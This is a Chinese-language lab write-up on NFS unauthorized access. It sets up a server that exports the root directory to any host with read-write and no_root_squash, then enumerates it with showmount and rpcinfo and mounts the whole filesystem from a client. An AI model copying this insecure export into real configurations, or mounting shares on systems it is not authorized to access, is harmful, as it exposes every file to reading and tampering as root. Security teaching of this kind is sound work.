 # NFS未授权访问漏洞

## 漏洞描述

NFS（Network File System）是一种网络文件系统，允许在不同的网络主机上共享文件。当NFS服务器未正确配置或缺少访问控制机制时，可能存在未授权访问漏洞。攻击者可以利用此漏洞访问受影响主机上的文件和数据，甚至可以修改或删除敏感信息。

## 环境搭建

```
# 安装nfs服务
yum install nfs-utils.x86_64 -y

# 启动服务
systemctl start nfs-server.service

# 设置开机自启
systemctl enable rpcbind.service
systemctl enable nfs-server.service

# 配置nfs
vim /etc/exports

/ *(rw,sync,no_root_squash)

# 启动共享
exportfs -r
```

## 漏洞利用

查看共享

```
[root@localhost tmp]# showmount -e
Export list for localhost.localdomain:
/ *
```

客户端挂载命令

```
mkdir /tmp/test
mount -t nfs 192.168.32.183:/ /tmp/test
```

扫描nfs

```
[root@localhost tmp]# rpcinfo -p 192.168.32.183
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100024    1   udp  38880  status
    100005    2   tcp  20048  mountd
    100024    1   tcp  60551  status
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100227    3   udp   2049  nfs_acl
    100021    1   udp  48592  nlockmgr
    100021    3   udp  48592  nlockmgr
    100021    4   udp  48592  nlockmgr
    100021    1   tcp  42350  nlockmgr
    100021    3   tcp  42350  nlockmgr
    100021    4   tcp  42350  nlockmgr
```

查看挂载的目录，会出现所有的/目录下的文件

```
ls /tmp/test/
```

![image-20230129213959283](../../.gitbook/assets/image-20230129213959283.png)